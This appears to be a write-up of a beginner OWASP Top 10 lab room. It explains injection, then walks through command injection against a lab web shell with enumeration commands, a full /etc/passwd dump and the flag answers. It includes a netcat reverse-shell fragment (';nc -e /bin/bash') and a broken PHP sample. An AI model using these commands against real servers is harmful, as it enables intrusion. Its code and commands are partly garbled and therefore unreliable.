

### Task 1 Introduction
---

This room breaks each OWASP topic down and includes details on what the vulnerability is, how it occurs and how you can exploit it. You will put the theory into practise by completing supporting challenges.

- Injection
- Broken Authentication
- Sensitive Data Exposure
- XML External Entity
- Broken Access Control
- Security Misconfiguration
- Cross-site Scripting
- Insecure Deserialization
- Components with Known Vulnerabilities
- Insufficent Logging & Monitoring

The room has been designed for beginners and assume no previous knowledge of security.

### Task 2 Accessing Machine
---



Some tasks will have you learning by doing, often through hacking a virtual machine.

However, to access these machines you need to either:

Connect using OpenVPN

1. Download openVPN
2. open terminal

```
sudo openvpn vpn_name.vpn
```

### Task 3 [Severity 1] Injection
---

Injection flaws are very common in applications today. These flaws occur because user controlled input is interpreted as actual commands or parameters by the application. Injection attacks depend on what technologies are being used and how exactly the input is interpreted by these technologies. Some common examples include:

- SQL Injection: This occurs when user controlled input is passed to SQL queries. As a result, an attacker can pass in SQL queries to manipulate the outcome of such queries. 
- Command Injection: This occurs when user input is passed to system commands. As a result, an attacker is able to execute arbitrary system commands on application servers.

If an attacker is able to successfully pass input that is interpreted correctly, they would be able to do the following:

- Access, Modify and Delete information in a database when this input is passed into database queries. This would mean that an attacker can steal sensitive information such as personal details and credentials.
- Execute Arbitrary system commands on a server that would allow an attacker to gain access to users’ systems. This would enable them to steal sensitive data and carry out more attacks against infrastructure linked to the server on which the command is executed.

The main defence for preventing injection attacks is ensuring that user controlled input is not interpreted as queries or commands. There are different ways of doing this:

- Using an allow list: when input is sent to the server, this input is compared to a list of safe input or characters. If the input is marked as safe, then it is processed. Otherwise, it is rejected and the application throws an error.
- Stripping input: If the input contains dangerous characters, these characters are removed before they are processed.

Dangerous characters or input is classified as any input that can change how the underlying data is processed. Instead of manually constructing allow lists or even just stripping input, there are various libraries that perform these actions for you.

### Task 4 [Severity 1] OS Command Injection
---
Command Injection occurs when server-side code (like PHP) in a web application makes a system call on the hosting machine.  It is a web vulnerability that allows an attacker to take advantage of that made system call to execute operating system commands on the server.  Sometimes this won't always end in something malicious, like a `whoami` or just reading of files.  That isn't too bad.  But the thing about command injection is it opens up many options for the attacker.  The worst thing they could do would be to spawn a reverse shell to become the user that the web server is running as.  A simple `;nc -e /bin/bash` is all that's needed and they own your server; **some variants of netcat don't support the -e option.** You can use a list of these reverse shells as an alternative.

Once the attacker has a foothold on the web server, they can start the usual enumeration of your systems and start looking for ways to pivot around.  Now that we know what command injection is, we'll start going into the different types and how to test for them.

### Task 5 [Severity 1] Command Injection Practical
---
`What is Active Command Injection?`

Blind command injection occurs when the system command made to the server does not return the response to the user in the HTML document.  Active command injection will return the response to the user.  It can be made visible through several HTML elements. 

Let's consider a scenario: EvilCorp has started development on a web based shell but has accidentally left it exposed to the Internet.  It's nowhere near finished but contains the same command injection vulnerability as before!  But this time, the response from the system call can be seen on the page!  They'll never learn!

Just like before, let's look at the sample code from evilshell.php and go over what it's doing and why it makes it active command injection.  See if you can figure it out.  I'll go over it below just as before.

EvilShell (evilshell.php) Code Example

```php
<?php
    if (isset($_GET["commandString"])){
        try{
            passthru($command_string);
        } cath(Error $error){
            echo "<p class=mt-3><b>$error</b></a>"
        }
    }
?>
```

In pseudocode, the above snippet is doing the following:
1. Checking if the parameter "commandString" is set
2. If it is, then the variable `$command_string` gets what was passed into the input field
3. The program then goes into a try block to execute the function `passthru($command_string)`.  You can read the docs on `passthru()` on PHP's website, but in general, it is executing what gets entered into the input then passing the output directly back to the browser.
4. If the try does not succeed, output the error to page.  Generally this won't output anything because you can't output stderr but PHP doesn't let you have a try without a catch.

>`Ways to Detect Active Command Injection`

We know that active command injection occurs when you can see the response from the system call.  In the above code, the function `passthru()` is actually what's doing all of the work here.  It's passing the response directly to the document so you can see the fruits of your labor right there.  Since we know that, we can go over some useful commands to try to enumerate the machine a bit further.  The function call here to `passthru()` may not always be what's happening behind the scenes, but I felt it was the easiest and least complicated way to demonstrate the vulnerability.  

>`Commands to try`

>`Linux`

- whoami
- id
- ifconfig/ip addr
- uname -a
- ps -ef
  
>`Windows`

- whoami
- ver
- ipconfig
- tasklist
- netstat -an

*To complete the questions below, navigate to http://10.10.143.27/evilshell.php.*
 
>**What strange text file is in the website root directory?**

`ls`
>css `drpepper.txt` evilshell.php index.php js
- [x] answer
```
drpepper.txt
```
>**How many non-root/non-service/non-daemon users are there?**

`cat /etc/passwd`
>root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
- [x] answer

```
0
```
>**What user is this app running as?**
    
`id`
>uid=33(www-data) gid=33(www-data) groups=33(www-data)
- [x] answer
```
www-data
```

>**What is the user's shell set as?**

`cat /ect/passwd`
>root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:`www-data`:/var/www:`/usr/sbin/nologin` backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
- [x] answer
```
/usr/sbin/nologin
```

>**What version of Ubuntu is running?**

`lsb release -a`
>Distributor ID: Ubuntu Description: Ubuntu 18.04.4 LTS Release: 18.04 Codename: bionic
- [x] answer
```
18.04.4
```
>**Print out the MOTD.  What favorite beverage is shown?**

`find . /etc | grep "00-header"`
>/etc/update-motd.d/00-header

print out `cat /etc/update-motd.d/00-header`

>```sh
>#!/bin/sh 
># 
># 00-header - create the header of the MOTD 
># Copyright (C) 2009-2010 Canonical Ltd. 
># 
># Authors: Dustin Kirkland # 
># This program is free software; you can redistribute it and/or modify 
># it under the terms of the GNU General Public License as published by 
># the Free Software Foundation; either version 2 of the License, or 
># (at your option) any later version. 
># 
># This program is distributed in the hope that it will be useful, 
># but WITHOUT ANY WARRANTY; without even the implied warranty of 
># MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the 
># GNU General Public License for more details. 
># 
># You should have received a copy of the GNU General Public License along 
># with this program; if not, write to the Free Software Foundation, Inc., 
># 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA. 
>[ -r /etc/lsb-release ] && . /etc/lsb-release 
>if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then 
># Fall back to using the very slow lsb_release utility 
>	DISTRIB_DESCRIPTION=$(lsb_release -s -d) 
>fi 
>printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)" DR PEPPER MAKES THE WORLD TASTE BETTER!
>```
- [x] answer
```
dr pepper
```
